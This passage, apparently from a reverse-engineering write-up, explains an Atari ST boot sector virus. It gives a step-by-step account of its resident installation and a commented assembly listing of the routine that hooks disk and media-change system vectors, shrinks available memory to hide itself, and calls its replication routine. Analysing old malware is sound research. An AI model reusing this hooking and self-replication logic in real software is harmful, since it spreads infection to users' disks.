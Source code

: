 In detals:

 1. Copy the `GENERATION` number from `DSKBUF`(hidden in the OEM reserved data) to the `OFFSET_GENERATION` variable
 1. It sets the magic number (`RESIDENT_MAGIC`) and location address (`A1`) in the header
 1. It adds the branch to jump over the variable structure (22 bytes)
 1. It saves the virus ID in the variables
 1. It saves the default `hdv_pbp` and `hbd_mediach` vectors in the variables
 1. It copies from `DSKBUF` (now Containing the fully working virus code) and at the same time computes the 512 bytes double page checksum and fix it to be `RESIDENT_CHK` (`0x5678`)
 1. resident program is now installed, the routine ends (`RTS`)
 1. Then, I must admit I don't know how it works but it seems the RTS will point to the `BRA` at `DISKBUF + 0x1E` instead of after the `BSR` and following the `BRA $86(PC)`, that will branch to `MAGIC_ENTRY_POINT`

### SET_SYSTEM_VECTORS

This routine, called after after the installation of the resident program, is setting the system vectors to "catch" any call to:
 - hdv_bpb: when a disk access is called
 - hdv_mediach: when a media is changed

It also protects itself from being overwritten by other applications by "reducing" the available of 512 bytes ST memory top boundary provided by
- Set the `MEMTOP` register to `MEMTOP - 0x200` so just before the resident program.
- Reduce the Gemdos available memory block length of 512 bytes

The routine also save the boot device number provided by the `_bootdev` register (can be also a hard drive!!!!) in the stack and call the `REPLICATE` routine (in case of the `SET_SYSTEM_VECTORS` was called by the resident program after a resset)

```asm
; ----------------------------------------------------------------------------------------------------------
; SET_SYSTEM_VECTORS
; ----------------------------------------------------------------------------------------------------------
SET_SYSTEM_VECTORS:
        SUBA.L    A2,A2                             ; A2 = 0
        SUBI.L    #$200,MEMTOP(A2)                  ; Change memtop to protect itself by reducing of 512 bytes
        SUBI.L    #$200,$496(A2)                    ; Change Gemdos first free memory block 0f 512 bytes

        ; $00048E|long |Memory descriptor block                              |themd
        ;    typedef struct md
        ;    {
        ;       struct md *m_link; /* pointer to next block $48e*/
        ;       VOIDP m_start; /* pointer to start of block $492*/
        ;   =>  LONG m_length; /* length of block $496 */
        ;       BASEPAGE *m_own; /* pointer to basepage of owner $49A*/
        ;    } MD;

        LEA       HDV_BPB_VECTOR(PC),A0
        MOVE.L    A0,HDV_BPB(A2)                    ; set HDV_BPB_VECTOR in hdv_bpb vector

        LEA       HDV_MEDIACH_VECTOR(PC),A0
        MOVE.L    A0,HDV_MEDIACH(A2)                ; set HDV_BPB_VECTOR in hdv_mediach vector

        MOVE.W    BOOTDEV(A2),-(sp)                 ; store default device in stack
        BSR.S     REPLICATE                         ; replicate the virus
        ADDQ.L    #2,sp                             ; fix stack
        RTS
```
